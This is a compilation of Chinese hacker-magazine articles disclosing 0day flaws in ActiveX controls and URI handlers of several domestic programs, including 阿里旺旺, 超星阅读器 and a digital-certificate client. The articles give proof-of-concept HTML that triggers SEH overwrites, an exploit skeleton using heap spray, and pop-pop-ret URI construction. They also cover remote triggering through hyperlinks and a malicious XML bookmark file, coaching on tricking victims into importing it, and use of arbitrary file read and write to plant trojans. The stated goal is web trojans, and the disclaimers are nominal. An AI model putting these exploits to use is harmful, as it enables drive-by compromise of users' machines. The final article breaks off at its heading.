

图 5

注意看图 5 右侧上方显示的 EAX 寄存器数值，此刻变为了 `00670067`，这正好就是 “gg” 的 Unicode 表达式。为此，我们证明了 `broadcast.m3u` 中过长的音乐文件名称确实可以覆盖到“一听音乐盒”的 EAX 寄存器，通过控制 EAX 寄存器的内容，我们最终可以让“一听音乐盒”在发生错误的时候执行到我们想要的内存地址上。而且，我们通过图 5 可以看出，在“一听音乐盒”发生错误的时候，EBP 寄存器指向的内容正好就是 `broadcast.m3u` 中过长的音乐文件名称的一部分。为此，我们就可以控制“一听音乐盒”在出错时直接跳转到 EBP 寄存器指向的内存地址上去执行 Shellcode，当然，此刻的 Shellcode 要符合 Unicode 编码，这一点可以参考网络上的一些文章。

可以说“一听音乐盒”的这个溢出漏洞是一个非常典型的安全漏洞，它不同于以往的缓冲区溢出漏洞，它造成的结果是覆盖了某一个关键的寄存器数据，造成了指针覆盖式的安全漏洞，总体来说还是属于溢出类型的。这里最需要大家学习的就是在对软件进行安全测试时一定要详细，不要断然下结论；很多漏洞都隐藏得很深。最后，本文只做技术讨论，凡是利用本文技术进行违法活动的，作者与杂志概不负责。有任何问题欢迎大家论坛上进行讨论。

- 前置知识：无
- 关键词：极光、远程溢出

## 极光网络电视远程溢出 0day



文/图 爱无言

很长一段时间好像没有听说过什么关于国内软件的远程溢出漏洞了，遍历了一下国内外的漏洞库，发现关于国内软件的远程溢出漏洞，尤其是 ActiveX 控件造成的安全漏洞大多都被发现于 2008 年到 2009 年这段时间。仔细想想，那段时间确实也是网页木马盛行的时候。也许是各大软件公司在开发软件的时候都提高了安全检查的力度，造成我们现在几乎很难听说什么比较严重的 ActiveX 控件溢出漏洞。最近朋友要写一些关于软件安全测试的论文，邀请我给他提供一些案例，案例要求必须是最新的，而且是 ActiveX 控件类型的溢出漏洞，能够实现网页木马的最好。

我连夜下载了很多国内外新版本的软件进行安全测试，其中就发现了很多的安全漏洞，这里将其中一个比较严重的、影响范围较大的安全漏洞公布出来，供大家一起学习。这个安全漏洞的软件名为“极光网络电视”，版本号为 v2010 3.3。据说这款软件是近段时间非常流行的一款用来在线观看高清电视电影的播放软件，看看官方的介绍：极光网络电视（JGHTV）【原名：极光高清电影电视】是全球领先的 P2P 高清网络电视、高清电影播放平台软件，极光采用国际领先的 X264 高清解码技术，可实现 HDTV 画质的高清电视直播，极光网络...


电视采用业界领先的 IPTV Ulink 技术，萃取了国内外十几种 P2P、MMS、FLV 节目源，只要下载极光软件，你可以免费看到大陆、香港、台湾、国外等 2300 套高清直播节目，和全球 35000 部最火爆的首映电影，以及数万套热播电视剧高清点播！并且，这一切都是 100% 免费的！

真是非常具有诱惑力的介绍，现在看电影看电视确实都喜欢看高清版本的，但谁能想到这么好的软件却有着致命的安全漏洞。在我的电脑上安装了该软件，电脑系统版本为 Windows XP SP3。安装好后，我们利用 COMRaider 首先来查看一下“极光网络电视”在我们的系统中安装了哪些 ActiveX 控件。运行 COMRaider，单击“Start”按钮，选择“Scan a directory for registered COM servers”即扫描安装目录中的注册控件，单击“Next”按钮后，COMRaider 将会出现一个“浏览文件夹”的新窗口，我们在其中选择“极光网络电视”的默认安装目录“C:\Program Files\ighdv\”，选择好后，直接单击“确定”按钮，COMRaider 将会自动遍历该目录中所有注册的 ActiveX 控件，如图 1 所示。


图 1

从图 1 的结果来看，“极光网络电视”在我们的系统中注册了 51 个 ActiveX 类，数量不小。其实这样更好，意味着我们发现安全漏洞的可能性越高。

请大家注意，此刻我们只是为了查看一下“极光网络电视”注册了多少 ActiveX 控件，要想挖掘它的 ActiveX 控件远程溢出安全漏洞可不能在这个模式下进行。重新运行 COMRaider，单击“Start”按钮后，我们这一次选择“Choose from controls that should be loadable in IE”即查询当前系统中所有能够被 IE 浏览器加载的 ActiveX 控件。为什么要选择这个选项，原因很简单。我们想要挖掘的安全漏洞就是一个属于网页木马类型的 ActiveX 控件溢出漏洞，既然是网页木马，那么就意味着出现漏洞的 ActiveX 控件能够被 IE 浏览器自动加载调用，否则，就无法触发漏洞，我们的目的也就达不到了。

选择好后，单击“Next”按钮，稍微等待一会，COMRaider 将会找出此刻系统中所有可以被 IE 浏览器加载的 ActiveX 控件，这里也包含着“极光网络电视”带来的 ActiveX 控件，如图 2 所示。


图 2

从图 2 中我们发现一个有趣的事情，“极光网络电视”确实如同官方介绍的一样，集合了国内诸多知名在线播放软件的 ActiveX 控件文件。仅从图 2 中，我们就能够看到有 UCLive、PPS、iVants、CCTV、PiPi、UUSee。这种拿来主义确实能够帮助软件强大其自身的功能，但是，这也带来一个安全隐患，谁能够保证这些集合起来的 ActiveX 控件本身不存在安全漏洞呢？

我们选择图 2 中最后一个控件，即 UUSee 的 UPlayer Control 控件，单击 COMRaider 下方的“Select”按钮，COMRaider 将会分析出该控件的所有用户接口，如图 3 所示。


图 3

在这里，我们注意一个用户接口，名为“PlayURLAndFile”，这个用户接口的参数只有一个字符串类型的变量。从名字上看，这个用户接口是用来播放媒体文件的，而它的参数应当是媒体文件的路径，包含 URL 路径模式和本地路径模式。这就不得不让我们怀疑，由于 Windows 系统下文件名的最大长度是 260 个字节，如果软件开发人员不注意，往往会造成溢出漏洞的发生。下面，我们就写一个网页文件来做一下测试。网页文件的代码如下：

```html
<object classid="clsid:EA37A1CC-C77B-45E5-9AC2-AD037D047BCC" name="evil"></object>
<script>
var a=Array(600);
evil.PlayURLAndFile(a);
</script>
```

简单解释一下，这里“a”是一个长度为 600 字节的字符串，我们将其传递给了 UPlayer Control 控件的用户接口 PlayURLAndFile，目的就是想要测试一下该接口在处理过长字符串参数时会不会发生溢出漏洞。

保存上述测试代码为 poc.htm，并上传至 Web 服务器目录下，用 IE 浏览器打开该网页文件，你会发现浏览器在打开该网页文件的一瞬间崩溃了！

用 OllyDbg 来调试 IE，再次打开我们的 poc.htm，这一次，OllyDbg 监视到 IE 出错的原因，如图 4 所示。


图 4

图 4 下方的提示中显示此刻 IE 读取内存地址“6332632E”时发生了错误，再看一看此刻 IE 的 SEH，如图 5 所示。


图 5

在 IE 出错后，SEH 中的最后一个地址为“63326332”，这个正好是“2c2c”的 ASCII 码。而“2c2c”则是“,,”ASCII 码的倒置，这是由 Windows 系统中存储数据顺序决定的。“,,”这个数据则来源于 poc.htm 中的“a”变量，因为在使用“Array”这个函数时，“a”变量就被赋值为 600 个字符“,”。如此一来，我们就明白了过长的字符串可以造成 PlayURLAndFile 函数处理过程中发生严重的溢出，而在溢出发生时，SEH 可以被我们控制，这就使得我们可以利用经典的 heap spray 技术来达到控制 IE 在溢出发生后执行任意代码。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：阿里旺旺、ActiveX、溢出

## 揭秘阿里旺旺 ActiveX 控件
### 远程溢出 0day


文/图 发无言

发现阿里旺旺的这个漏洞已经有好长一段时间了，这期间，我一直忙于其他事情，所以也就忘了将这个漏洞整理出来与大家一起分享。这不，最近有些空闲，连忙将自己发现的漏洞全部整理一下。这一次，给大家带来的这个漏洞可以说是一个重量级别的安全漏洞。众所周知，阿里旺旺这个软件在国内的使用几乎可以说是“人手必备”。国内现在最大的网上交易平台——淘宝网，它最重要的交易工具之一就是阿里旺旺。为此，阿里集团也为这些软件不停地丰富其功能，加强其安全度。更新后的阿里旺旺被区分成买家专用版和卖家专用版，目的是为了更好地服务于网上交易的买卖双方。在阿里旺旺功能丰富的同时，其安全功能也在提高，例如，阿里旺旺自带的网址安全鉴别功能。可是，这些提高似乎还是有一些遗憾，关于这些方面的安全问题我将在以后的文章中进行讨论，漏洞很多啊。今天，我们将集中精力看一看阿里旺旺一个致命的安全漏洞——ActiveX 控件远程溢出 0day。

ActiveX 控件远程溢出 0day 一直是网络上危害最大的安全漏洞之一，因为这一类的安全漏洞往往可以被制造成网页木马程序，从而借助一个网页文件散播木马程序，影响和攻击范围很大，更何况这次出现问题的软件竟然是著名的阿里旺旺。

现在，在你自己的系统中安装最新的阿里旺旺，我选择的是买家版本。安装完毕后，你可以使用任意一个可以查看系统中 ActiveX 控件信息的工具来查看一下阿里旺旺向我们的系统注册了哪些 ActiveX 控件。总体来说，阿里旺旺注册了两个 ActiveX 控件，如图 1 和图 2 所示。


图 1


图 2

从图 1 和图 2 中我们看出，阿里旺旺注册的两个 ActiveX 控件分别是 ImageMan.dll 和 ImageMa2.dll。这两个 ActiveX 控件的外部接口看起来几乎一模一样，只不过 ImageMa2.dll 多了一个“xmlParam”外部接口。

通过测试，我们发现 ImageMan.dll 这个 ActiveX 控件注册的外部接口“AutoPic”出现了安全漏洞，而同样的外部接口在 ImageMa2.dll 中虽然也出现了问题，但是却只能造成浏览器发生崩溃，而不是执行任意代码。简单猜测一下，估计 ImageMa2.dll 是 ImageMan.dll 的升级，但是不知道阿里旺旺公司为何不去除掉 ImageMan.dll 呢？

现在，让我们新建一个记事本文件，将以下代码键入其中。

```html
<object classid='clsid:128D0E38-1FF4-47C3-B0F7-0BAF90F568BF' name='evil'></object>
<script>
var a=Array(2000); // 过程的变量a，用来触发溢出漏洞
evil.AutoPic(a,'a'); // 这里调用被测试外部接口
</script>
```

保存上述文件为 poc.htm，将该网页文件放置到 Web 服务目录中，然后开启浏览器访问该网页文件，你会发现浏览器在打开该网页文件的一瞬间竟然崩溃了。

用 OllyDbg 程序挂接 IE 进程，再次访问 poc.htm 文件，你会发现 OllyDbg 监视到了一个错误，如图 3 所示。


图 3

这样的画面是我们最喜欢看到的，因为这代表着被测试的 ActiveX 控件发生了严重的溢出漏洞，并且该漏洞可以被我们所控制。图中“2C”所代表的是符号“,”的十六进制 ASCII 码，这个数值来自于我们 poc.htm 网页中的变量 a。这意味着通过更改变量 a 的值，我们可以控制浏览器在发生错误后跳转到任意内存地址上。如果我们将任意内存地址存入 shellcode，那么我们就可以控制浏览器来执行任意代码了。

一个严重的溢出漏洞就这样被我们轻而易举地发现了，过程可谓简单。阿里旺旺这个漏洞主要是由于过程的变量 a 覆盖了内存中的 SEH 链，当程序发生错误时，Windows 系统利用 SEH 链来处理错误，于是就会跳转到变量 a 所代表的内存地址上，如图 4 所示。


图 4

要想利用这个漏洞，我们需要注意一点，由于外部接口“AutoPic”的第一个参数代表的是图片文件路径名，“AutoPic”的原型为：

```vb
Sub AutoPic(
    ByVal szFileName As String,
    ByRef szOut As String
)
```

所以变量 a 的取值必须符合 Windows 系统对文件路径名的要求。为此，Exploit 的攻击代码可以写成下面这个样子。

```html
<object classid='clsid:128D0E38-1FF4-47C3-B0F7-0BAF90F568BF' name='evil'></object>
<script>
var heapSprayToAddress = 0x20202020;
// heapSpray shellcode 的代码这里省略
var a='...';
// 变量a赋值为可见字符，且符合Windows系统对文件名称的要求
a='a,1111';
evil.AutoPic(a,'a');
</script>
```

文章最后，我提供了一个演示录像给大家，以证明漏洞的存在，请到黑防官方网站下载，大家可以参考学习。还是那句话，不要利用该漏洞进行任何违法活动，后果本人不负责任。有任何问题，欢迎大家来论坛上讨论，或者到我的博客 http://hi.baidu.com/cjexploit 上给我留言。

- 前置知识：无
- 关键词：超星、URL、溢出

## 白灰超星浏览器特殊 URL 远程溢出漏洞


文/图 爱无言

“超星浏览器”的名字在国内几乎可以与微软的 Word、Adobe 公司的 PDF 相媲美。国内很多电子图书的格式多半都是 PDG 格式，也就是“超星浏览器”支持的文件格式。PDG 格式是一种可以将图片、文字整合在一起，便于用户阅读查看的文档格式。

“超星浏览器”采用 PDG 格式，将大量的文件资料保存为电子图书供用户使用。同时，“超星浏览器”有一个非常庞大的网上电子图书库，这就为喜欢阅读的网民提供了丰富的图书资源。为此，在国内很多高等院校以及科研院所中，都会采用“超星浏览器”作为资料查看的阅读软件。在过去的几年里，“超星浏览器”被发现存在大量的安全漏洞。其中，大部分的漏洞都集中于“超星浏览器”自带的 ActiveX 控件。这些漏洞可以直接造成 IE 浏览器发生溢出并执行任意代码，一时间，“超星浏览器”的安全漏洞被恶意攻击者制作成了网页木马程序到处散播，影响十分恶劣。后来，“超星浏览器”的开发者意识到了安全问题的严重性，将“超星浏览器”的代码利用 Delphi 语言重新书写了一遍（以前的“超星浏览器”是由 VC 开发的），原因可能有两个：一是 Delphi 的开发简便，某些安全机制好一些；二是去除带有安全隐患的那些 ActiveX 控件，增强软件的安全性。这个最新开发出来的“超星浏览器”就是我们今天故事的主角“超星浏览器 4.0”。

之前我发布“超星浏览器”的安全漏洞时，曾保留过一些安全漏洞的信息，当我看到“超星浏览器”最新的版本“超星浏览器 4.0”时，便有了想要再次测试一下的想法。这里就带领读者一起来做一个安全测试，让我们检测一下最新版本的“超星浏览器 4.0”是不是如想象中那样安全。

首先给大家明确一下本次测试的环境，操作系统选用的是 Windows XP SP3，在该系统下安装了“超星浏览器 4.0”，系统自带浏览器为 IE 6.0，如图 1 所示。


图 1

现在，让我们使用“超星浏览器 4.0”随意打开一个 PDG 文件，如图 2 所示。


图 2

此刻，我打开的 PDG 文件名叫“p.pdg”，我们注意到一个细节，当“超星浏览器 4.0”打开“p.pdg”文件之后，地址栏处显示出一个非常特殊的 URI：`book://ssreader/e0?url=C:\Documents and Settings\Administrator\桌面\p.pdg&pagenum=1&pagetype=0`。

“URI”的意思大家都知道，简单地理解，可以认为就是一个“地址”。“超星浏览器 4.0”在读取某一个 PDG 文件的时候，其实从某种意义上讲，它的工作原理类似于我们常常使用的 IE 浏览器，PDG 文件就相当于一个网页文件。于是，“超星浏览器 4.0”就像 IE 浏览器一样，利用某一个“网址”来打开某一个 PDG 文件，这个“网址”就是我们在图 2 中看到的那个 URI。

与 IE 浏览器不同，“超星浏览器 4.0”的 URI 是以“book:”开头的。这意味着，“book:”这个协议是由“超星浏览器 4.0”来负责解析的。我们可以做一个简单的测试，打开 Windows 系统自带的“运行”窗口，在其中键入“book:”，如图 3 所示。


图 3

这个时候，我们单击“确定”按钮，就会发现系统自动打开了“超星浏览器 4.0”，这也证明了前面的说法。回过头再来看一看图 2 中的 URI：`book://ssreader/e0?url=C:\Documents and Settings\Administrator\桌面\p.pdg&pagenum=1&pagetype=0`。“book:”协议后是一个特殊的字符串“ssreader/e0?url=”，这段字符串的意思我们暂时可以不去思考，关键的是后面的：`C:\Documents and Settings\Administrator\桌面\p.pdg`，这一段字符串代表的是被我们打开的“p.pdg”文件的完整路径。这种结构的 URI 使我们产生了一个想法。既然 URI 中存在文件的完整路径，那么，我们就可以从这里入手，测试一下软件在处理过长的文件路径时会不会发生典型的缓冲区溢出漏洞。

现在，编写一段测试用的 URI，如下所示。

```text
book://ssreader/e0?url=C:\Documents and Settings\Administrator\桌面\p.pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp.pdg&pagenum=1&pagetype=0
```

这里我们将“p.pdg”文件名的长度故意加长（注意长度要尽可能长一些，多于 1024 个字节）。复制这段 URI 到 Windows 系统中的“运行”窗口中，按 Enter 键。你会发现“超星浏览器 4.0”没有发生任何变化。难道说我们的测试是错误的，“超星浏览器 4.0”没有存在缓冲区溢出漏洞？其实，Windows 的“运行”窗口对我们所输入的字符串长度是有限制的，过长的 URI 被系统限制自动截断了。为了充分测试“超星浏览器 4.0”，我们应该将上述的 URI 放入到“超星浏览器 4.0”的地址栏中去测试，如图 4 所示。


图 4

单击“超星阅览器 4.0”地址栏最右侧箭头或直接按 Enter 键，你会发现“超星阅览器 4.0”的界面竟然崩溃消失了！马上结合 OllyDbg 监视其进程 `Ssreader.exe`，最终看到了崩溃原因，如图 5 所示。


图 5

图中的内存地址不可读错误是常见的缓冲区溢出提示。如果将图 5 中的内存地址转换为字符，可发现其对应“.pdg”的十六进制形式，这正是后续测试输入的 PDG 文件名的一部分。随后在 OllyDbg 监视溢出时，又注意到一个细节，如图 6 所示。


图 6

溢出发生时，程序栈中保存着过长 URI 地址（如图中的 `0x0012ECB4`）。该信息非常关键：需要控制程序在溢出后跳转到 shellcode，而 shellcode 放在 URI 中。思路是寻找“特殊内存地址”，其指令形如 `pop xx; pop xx; retn`，通过两次 `pop` 后让返回地址落到 URI 指向处。利用 OllyDbg 的“可执行模块”功能可查看模块信息，如图 7 所示。

系统模块与地址列表（OllyDbg 可执行模块视图）

图 7

选择系统库文件并双击后，OllyDbg 会打开反汇编代码窗口（图 8）。在其中逐行查找满足 `pop xx; pop xx; retn` 的地址，并将该地址与 shellcode 组合构造 URI。


图 8

该 URI 的结构应该是这样：

```text
book://ssreader/e0?uri=随意填充字符+跳转指令4个字节+覆盖用的特殊内存地址+shellcode
```

这里“跳转指令 4 个字节”的作用是：溢出后程序先跳到“特殊内存地址”执行 `pop xx; pop xx; retn`，随后会跳入 URI 存放区；但此时 CPU 所在位置正好是“特殊内存地址”前 4 字节，因此需要先跳过这 4 字节再执行后面的 shellcode，避免破坏该地址。将特殊 URI 放入地址栏按 Enter 后，shellcode 可被执行（文中示例为 `6666`），如图 9 所示。


图 9

至此，本地触发方式已说明。但仅在“超星阅览器 4.0”地址栏手工按 Enter 触发意义有限；若能改造成远程触发，威力更大。实现方式很简单：构造网页并使用超级链接调用特殊 URI，代码大致如下。

```html
<a href="book://ssreader/e0?uri=特殊的内容&pageNum=1&pageType=0" target="_blank">触发漏洞</a>
```

网页代码很简单：借助超级链接调用特殊 URI，系统解析 URI 时会自动调用本机“超星阅览器 4.0”，从而实现远程触发其缓冲区溢出漏洞。文末进一步指出，该漏洞可被社工话术配合利用，风险较高，系统就会在不知不觉中被安装上木马程序，危害极大。

说道这里，我想起我曾经公布过这个漏洞，但是那个时候没有说明怎样远程利用，“超星阅读器 4.0I”的开发者可能因此没有重视这个漏洞的存在，现在我想应该赶紧修正了。该漏洞在某种意义上讲，是一个经典的远程溢出漏洞，与过去曾出现的一个 replay 漏洞类似。

其实，除了这种远程利用该漏洞的方法，我们也可以实现文件传播式的漏洞触发方法。“超星阅读器 4.0I”支持一种叫做“书签管理器”的功能，如图 10 所示。


图 10

在这个“书签管理器”功能窗口中，我们看到有一个“导入书签备份”按钮。这其实就是一个将用户保存好的书签列表文件导入“超星阅读器 4.0I”中成为书签的功能。而“超星阅读器 4.0I”的书签列表备份文件是以 XML 语言组织的文件，其内容大致如下：

```xml
<ExportBookMark DateTime="2011-02-12 13:34:45"><TO Item="a" Name="1" BookName="1" URL="book://ssreader/c0?url=F:\1.pdf" Type="1" TotalPageNum="1" PageNumber="1" isdir="False" Date="2011-02-12 PM 01:31:10" Time="2011-02-12 PM 0" SSNum="0" VisitTimes="0" webpagebeginlocation="0" webpageendlocation="0" InsertPageNumber="1" PageType="1" BookNote="无" Reverse=""/></ExportBookMark>
```

在上面这个书签列表备份文件中可以找到一个叫做“URL”的标签，通过这个标签我们分析出，“超星阅读器 4.0I”的书签列表备份文件中包含了 PDG 文件名称、书签建立时间等信息。而这其中的“PDG 文件名称”就是一个非常好的利用点。我们可以将前面创建出来的测试用 URL 放置到“超星阅读器 4.0I”的书签列表备份文件中，作为“URL”参数的数值，即修改上面的书签列表备份文件内容为：

```xml
<ExportBookMark DateTime="2011-02-12 13:34:45"><TO Item="a" Name="1" BookName="1" URL="book://ssreader/c0?url=F:\1111111111.pdg1...（省略）..." Type="1" TotalPageNum="1" PageNumber="1" isdir="False" Date="2011-02-12 PM 01:31:10" Time="2011-02-12 PM 0" SSNum="0" VisitTimes="0" webpagebeginlocation="0" webpageendlocation="0" InsertPageNumber="1" PageType="1" BookNote="无" Reverse=""/></ExportBookMark>
```

保存上面的代码为“0.XML”文件，这就是一个“超星阅读器 4.0I”的书签列表备份文件。然后，将这个文件发送给受害者，告诉他导入这个书签列表文件就可以看到很多电子图书。受害者不注意将该书签列表文件导入“超星阅读器 4.0I”，他的“超星阅读器 4.0I”的“书签”菜单中就会多出一个叫做“0”的书签，如图 11 所示。


图 11

一旦受害者单击该书签，就会直接触发漏洞，最终被恶意植入木马程序，成为恶意攻击者的一个新“肉鸡”。过程只是几秒钟而已，受害者也许只会觉得软件崩溃了，最终删除这个“没有用”的书签。

最后，“超星阅读器 4.0I”的一个漏洞已经被我们发现了，但是问题还不仅仅限于此，还有很多危害极大的安全漏洞，有一个漏洞的发现更是匪夷所思，关于这些漏洞我将在以后的文章中逐步公布出来。这个漏洞已经汇报超星官方，也得到了确认，大家在学习的同时，不要进行任何违法活动，一切后果作者与杂志概不负责。关于这个漏洞，大家有任何问题欢迎到论坛上来讨论学习。

- 前置知识：无
- 关键词：0day、网马、数字签名

## 揭秘厂乐谷数字证书客户端远程网马 0day


文/图 爱无言

提到数字证书，我想大部分的人都会联想到一些非常敏感的事务，例如，网上银行交易、网上购物、股票买卖等。在这些与金钱挂钩的行为中，数字证书往往充当着关键作用，没有合法的数字证书，这些行为都不会被接受。此外，数字证书往往还用于身份验证，例如在邮箱系统中，用户想要加密自己的邮件也可以利用数字证书来进行，只有与自己数字证书匹配的人才可以解密邮件，读取其中的内容。无论如何，数字证书最核心的作用就是想要证明一个独一无二的东西，好让系统区分出谁是谁……银行的网上银行系统通过这些软件从而识别验证用户系统当中存放的数字证书。

不过，ActiveX 控件也有着其自身的一些安全隐患，数字证书开发者在编写数字证书认证控件时，如果设计不够周全就会引发严重的安全漏洞。下面我们要给大家介绍的这个漏洞就来自于“广东省数字证书认证中心数字证书客户端”……本文旨在进行技术讨论，请大家不要借此漏洞进行任何违法行为，作者与杂志概不负责。

我们此次的测试环境为 Windows XP SP3，浏览器是 IE 6.0。当我们在系统中安装了“广东省数字证书认证中心数字证书客户端”后，该系统会在当前系统中注册两个 ActiveX 控件信息，其中一个名为“gdca_com.dll”的 Gdcc ActiveX 控件信息引起了我们的注意，如图 1 所示。


图 1

图 1 是我们借助 ComRaider 查看到“gdca_com.dll”这个 ActiveX 控件注册的所属外部接口信息。在这些外部接口信息中，我们发现其中有几个外部接口的名字非常值得关注，它们分别是 GDCA_ReadFile 和 GDCA_WriteFile。从名字上来看，这两个外部接口的作用分别是读取和写入文件……

按照一般的安全设计理念，既然这两个外部接口都是用来操作文件的，那么它们所能操作的文件应该限制在数字证书或者与银行认证有关的范围内，不能够操作任意文件……如果开发者不注意，ActiveX 控件就可以操作到用户系统上的任意文件。

我们这里写一段测试用的网页代码，其内容很简单，就是调用一下“gdca_com.dll”这个 ActiveX 控件的 GDCA_ReadFile 接口，看一看它是不是能够读取用户系统上的任意文件，代码内容如图 2 所示。

```html
<object classid="clsid:..." name="evil"></object>
<script>
var a=Array(3000);
document.write(evil.GDCA_ReadFile(0,"F:\\1.txt",0));
</script>
```

图 2

在图 2 中我们看到，这里调用“gdca_com.dll”这个 ActiveX 控件的 GDCA_ReadFile 接口时，给其传递了三个参数，其中第二个参数代表着想要查看内容的用户系统上的文件名称，这里是 “F:\\1.txt”，即 F 盘下的 1.txt 文件。将这个测试网页文件上传到 Web 服务器，现在借助浏览器访问该网页，你会发现浏览器中确实显示出一段字符串，不过与原本的 1.txt 文件内容不同，如图 3 所示。


图 3

从图 3 的对比来看，1.txt 中的内容原本是“ww”，而浏览器中显示的内容则是两个“d3”。我们至少证明了“gdca_com.dll”这个 ActiveX 控件的 GDCA_ReadFile 接口确实可以读取用户系统上任意文件的内容，这就是关键的。这就证实了该接口存在安全隐患，泄露了用户系统上的文件信息，跨越了安全限制……接下来我们再看浏览器显示内容与原始 1.txt 内容不一样的原因。其实，对于数字证书一类的软件，设计者往往会采用一些加密算法，这其中最常用的就是 Base64 加密算法。

算法加密，那么我们在调用 GDCA_WriteFile 接口写入任意内容时，这个内容也应该被 Base64 算法加密后写入，为此，我们新的测试代码就出来了，如图 4 所示。


图 4

图 4 中，我们将两个“d3”写入到用户系统下 F 盘的 2.txt 中，通过前面的学习我们知道“d3”就是“w”的 Base64 加密后的内容。

现在，再次上传新的测试网页文件到 Web 服务器上，用浏览器访问，同时观察本地 F 盘下出现了 2.txt 文件，对比其中的内容，你会发现我们的预言成功了，2.txt 中的内容就是两个“w”，GDCA_WriteFile 接口确实可以将任意内容写到用户系统的任意文件中，如图 5 所示。


图 5

由于“gdca_com.dll”这个 ActiveX 控件的 GDCA_WriteFile 接口可以将 Base64 算法加密后的内容写入到用户系统的任意文件中，恶意攻击者借助此漏洞，就可以将一个木马程序先通过 Base64 算法加密，然后再利用 GDCA_WriteFile 接口将其写入到用户系统的启动文件夹下，这样，用户在不知不觉中已经被安装了木马，一旦他下次重新启动计算机，那么木马就被执行了，恶意攻击者就可以顺利实现远程控制用户计算机的目的。如图 6 所示。


图 6

当然，恶意攻击者在加密自己的木马时，可以借助“gdca_com.dll”这个 ActiveX 控件的 GDCA_ReadFile 接口，这样加密后的木马程序内容可以更加适合漏洞的利用，所谓以其人之道，还治其人之身。

综合来看，“广东省数字证书认证中心数字证书客户端”的这两个安全漏洞是一个非常典型的越权操作漏洞。软件的设计者在没有任何安全理念的情况下设计开发了用于数字证书认证的控件。也许目的是好的，为了方便对数字证书的操作，可是安全是一个不可忽视的问题，一旦做不好，用户的利益就会受损。希望软件的设计者尽快修复该漏洞，不要引发更加严重的后果。

- 前置知识：无
- 关键词：友评、浏览器、漏洞

## 友评互动浏览器远程攻击漏洞


文/图 乱雪

### 前言

